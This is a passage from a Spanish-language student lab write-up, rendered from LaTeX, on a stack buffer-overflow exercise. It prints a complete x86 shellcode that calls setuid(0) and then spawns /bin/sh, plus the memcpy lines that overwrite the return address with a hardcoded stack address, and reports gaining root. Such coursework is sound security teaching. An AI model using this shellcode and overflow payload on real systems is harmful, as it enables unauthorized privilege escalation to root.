 \documentclass[11pt]{article}
\begin{document}
Para esto se setea la UID a 0 (root) antes de llamar a la shell y esta modificación
es fácil de realizar, donde se le agregan unas líneas al principio del shellcode anterior:

\begin{verbatim}
char shellcode[] =
    "\x31\xc0" /* Line 1: xorl %eax,%eax */
    "\x31\xdb" /* Line 2: xorl %ebx,%ebx */
    "\xb0\xd5" /* Line 3: movb $0xd5,%al */
    "\xcd\x80" /* Line 4: int $0x80 */
    // ---- The code below is the same as the one in Task 2 ---
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;
\end{verbatim}

La dirección de retorno que reemplaza la original sigue siendo la misma ya que
las instrucciones comienzan desde el mismo lugar, lo único que hay que modificar
es la cantidad de bytes a copiar con memcpy.

\begin{verbatim}
    char newra[] = "\x60\xeb\xff\xbf";
    memcpy(buffer + 36, newra, 4); 
    memcpy(buffer + 40, shellcode, 32);
\end{verbatim}

Luego compilo y ejecuto y puedo ver que efectivamente nuevamente tengo privilegios
de administrador.

\begin{figure}[h!]
    \begin{center}
        \texttt{[image: exploit2working.png]}
    \end{center}
\end{figure}
\end{document}
